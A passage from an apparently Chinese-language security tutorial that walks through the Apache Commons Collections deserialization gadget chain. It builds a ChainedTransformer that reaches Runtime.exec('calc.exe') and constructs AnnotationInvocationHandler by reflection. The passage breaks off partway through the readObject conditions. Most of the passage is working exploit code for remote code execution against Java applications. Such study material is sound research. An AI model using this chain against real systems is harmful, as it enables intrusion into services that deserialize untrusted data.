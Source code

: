 ### Transformer构造
在生成payload时,需要对生成的类进行序列化,但被序列化的对象和其使用的内部对象都要实现`Serializable`接口才行,但Runtime类并没有实现该接口,所以在构造`InvokerTransformer`的runtime对象时需要利用反射来执行其exec方法.
1. 先利用ConstantTransformer类来获取一个Runtime的class.
```java
 new ConstantTransformer(Runtime.class)
```
2. 第一个InvokerTransformer来利用getMethod来获取Runtime类的getRuntime方法.
```java
new InvokerTransformer("getMethod", new Class[] {
                        String.class,
                        Class[].class }, new Object[] { "getRuntime",
                        new Class[0] })
```
3. 第二个InvokerTransformer来利用method.invoke来执行上面获得的getRuntime()方法,从而得到一个Runtime对象.
```java
  new InvokerTransformer("invoke", new Class[] { Object.class,
                        Object[].class }, new Object[] { null, new Object[0]
                })
```
4. 第三个InvokerTransformer则调用Runtime.exec()方法并传入参数完成RCE.
```java
new InvokerTransformer("exec", new Class[] { String.class },
                        new String[] {
                                "calc.exe" })
```
5. 最后将其按顺序放入一个Transformer数组传入ChainedTransformer类中,使其一环扣一环按顺序执行.
```java
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class,
                        Class[].class }, new Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class,
                        Object[].class }, new Object[] { null, new Object[0]
                }),
                new InvokerTransformer("exec", new Class[] { String.class },
                        new String[] {
                                "calc.exe" }),
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
```
### InvocationHandler构造
InvocationHandler类是内部类,无法通过new直接构造,需要通过反射来生成,代码如下.
```java
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor construct = clazz.getDeclaredConstructor(Class.class,Map.class);
        construct.setAccessible(true);
```                            
在AnnotationInvocationHandler#readObject()中有几个判断条件满足后才会进入最后的setValue中
1. this.type要是AnnotationType的子类
```
 try {
            var2 = AnnotationType.getInstance(this.type);
        } catch (IllegalArgumentException var9) {
            throw new InvalidObjectException("Non-annotation type in annotation serial stream");
        }
```
this.type即是InvocationHanlder构造函数的第一个参数  
2. var7不为空.
```java
  if (var7 != null) {
                Object var8 = var5.getValue();
                if (!var7.isInstance(var8) && !(var8 instanceof ExceptionProxy)) {
```